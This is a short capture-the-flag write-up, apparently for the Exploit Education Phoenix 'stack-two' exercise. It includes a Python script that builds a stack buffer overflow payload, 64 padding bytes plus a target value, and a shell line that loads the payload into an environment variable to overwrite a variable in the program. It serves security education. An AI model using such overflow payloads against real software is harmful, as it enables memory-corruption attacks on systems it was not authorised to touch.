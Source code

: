 ### stack-two
#### Script
```python
import sys 

value = 0x0d0a090a
inject = (b'A'*64) + value.to_bytes(4,'little')

sys.stdout.buffer.write(inject)
```
#### Analysis 
According to the challenge description, the *changeme* variable must be changed to **0x0d0a090a**. This is similar to the previous challenges, where we write enough data to overwrite the buffer and then put in our desired value. 

However, this challenge adds a new layer, as the input to the program is no longer taken from stdin, but from an [environment variable](https://www.geeksforgeeks.org/environment-variables-in-linux-unix/) called *ExploitEducation*. Knowing this, we must first set this variable in order to get *changeme* to our desired value. 

#### Solution
We use the script written above to set the environment variable in our .bashrc file.
```shell
...

export ExploitEducation=$(python3 /opt/phoenix/amd64/scripts/stack_two.py)

```
